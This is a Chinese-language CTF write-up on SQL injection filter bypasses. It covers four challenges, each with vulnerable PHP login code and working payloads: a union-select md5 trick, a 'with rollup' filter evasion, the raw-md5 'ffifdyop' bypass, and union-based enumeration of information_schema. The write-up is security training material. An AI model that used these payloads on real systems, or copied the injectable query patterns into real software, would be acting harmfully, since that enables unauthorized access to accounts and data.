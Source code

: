 ### SQL注入绕过

#### 例题1
```php
<?php
if($_POST[user] && $_POST[pass]) {
	//省略了mysql连接过程
    $user = $_POST[user];
    $pass = md5($_POST[pass]);

    $sql = "select pw from php where user='$user'";
    #使用union时，查询出来的列名是第一个被查询的表对应的列名
    $query = mysql_query($sql);
    if (!$query) {
        printf("Error: %s\n", mysql_error($conn));
        exit();
    }
    $row = mysql_fetch_array($query, MYSQL_ASSOC);
    
    if (($row[pw]) && (!strcasecmp($pass, $row[pw]))) {
        echo "<p>Logged in! Key:************** </p>";
    }
    else {
        echo("<p>Log in failure!</p>");
    }
}
?>
```
#### 分析
该文件接受user和pass两个参数，通过构造合适的sql语句进行SQL注入成功登录即可获得key。代码中没有过滤任何SQL语句，因此可以有多种方法进行payload的构造。

#### payload
```
user=' union select md5(1)#
pass=1 
```

#### 例题2
>题目地址:http://www.shiyanbar.com/ctf/1940
#### 代码
```php
<?php
error_reporting(0);
function AttackFilter($StrKey,$StrValue,$ArrReq){  
    if (is_array($StrValue)){
        $StrValue=implode($StrValue);
    }
    if (preg_match("/".$ArrReq."/is",$StrValue)==1){   
        print "水可载舟，亦可赛艇！";
        exit();
    }
}
//执行的开始部分
$filter = "and|select|from|where|union|join|sleep|benchmark|,|\(|\)";
foreach($_POST as $key=>$value){ 
    AttackFilter($key,$value,$filter);
}

//连接语句省略
$sql="SELECT * FROM interest WHERE uname = '{$_POST['uname']}'";
$query = mysql_query($sql); 
if (mysql_num_rows($query) == 1) { 
    $key = mysql_fetch_array($query);
    if($key['pwd'] == $_POST['pwd']) {
        print "CTF{XXXXXX}";
    }else{
        print "亦可赛艇！";
    }
}else{
	print "一颗赛艇！";
}
mysql_close($con);
?>
```
#### 分析
该PHP文件接收两个参数，uname和pwd。文件中包含了对一些SQL关键字和操作符的过滤，没有限制limit,with,rollup,offset等关键字。

根据代码中的条件，只有查询结果中只有1行，且输入密码必须和查询的密码对应才可以得到flag。

这里可以借助with rollup操作来实现SQL注入，该关键字可以将行中每一列的结果进行汇总，如果是数字，得到数字的和；如果是非数字字符串，得到0；

#### payload
```html
uname=1' or 1=1 group by pwd with rollup limit 1 offset 2#
pwd=
<!--pwd为空，uname的最终显示起始行是试出来的-->
<!--payload解释:得到所有用户名和密码，将密码汇总，选出null对应的行-->
```

#### 参考文章
with rollup
>https://www.cnblogs.com/phpper/p/9384614.html

limit宇offset
>https://blog.csdn.net/l1212xiao/article/details/80520330

#### 例题3
>http://ctf5.shiyanbar.com/web/houtai/ffifdyop.php,后台登录

#### 代码

```php
$password=$_POST['password'];
$sql = "SELECT * FROM admin WHERE username = 'admin' and password = '".md5($password,true)."'";
$result=mysqli_query($link,$sql);
if(mysqli_num_rows($result)>0){
    echo 'flag is :'.$flag;
}
else{
    echo '密码错误!';
}
```

#### 分析
该文件只接收一个password参数。如果想得到flag，必须保证密码的MD5值和用户输入的MD5值相同。值得注意的是，该处的MD5函数与常规的用法不太一致，其第二个参数为true，表示返回16字节的原始二进制格式的内容，而不是其对应的一个32位的数字字符串。

因此，如果产生的二进制内容在显示为字符串时，如果能出现'or'axx（a为一个非0的数字，x为任意字符）,则可以构造一个恒为真的SQL语句。

比较巧的是，该文件的文件名经过加密后正好可以产生一个比较合适的字符串。
```txt
'or'6�]��!r,��b
```
#### payload

```txt
password=ffifdyop
```

#### 例题4
>tips:非常适合新手的一道题，题目来自于攻防世界web进阶题newscenter

#### 说明
此题无代码，需要盲注。

测试中发现报错不会有回显，但是也没有过滤任何常用的SQL语句，不是难题。

#### 分析
这里准备采用联合查询的方式获得flag，首先构造了1个payload
```txt
' and 0 union select 1#
```
在firefox下直接返回一个空白页，猜测可能的原因是联合查询的列数不匹配导致查询结果出错。

一点点的增加查询的列数，发现列数为3时可以。
```txt
' and 0 union select 1,2,3#
```
![行数测试](./image/column_test_3.png)
接下来查询表名
```txt
' and 0 union select 1,2,table_name from information_schema.tables#
```
![查询表名](./image/column_name.png)
得到了表名称secret_table
接下来查询列名
```txt
' and 0 union select 1,2,column_name from information_schema.columns where table_name='secret_table'#
```
得到了列名fl4g

查询fl4g中的内容即可得到flag
```txt
' and 0 union select 1,2,fl4g from secret_table#
```

#### 拓展
这里拓展一些关于select后面加数字的一些内容。

select后面如果加数字，比如select 1,2,3 from users;的话，mysql就会打印三列123，但是行数会与整个表中的行数一致。这种写法既可以测试出一个表中有多少行，在执行SQL注入时，有关联合查询的部分也可以测试左侧的查询一共查询了几列。

#### 关于16进制数
sql是支持16进制数的，具体的含义看上下文，如果字符串场景，则16进制数值看做字符串，否则看做数字。

比如select 0x7e; 其查询结果为符号~。
<br>select 1+0x7e,返回的结果为127。

>https://www.cnblogs.com/yufei121/p/6103336.html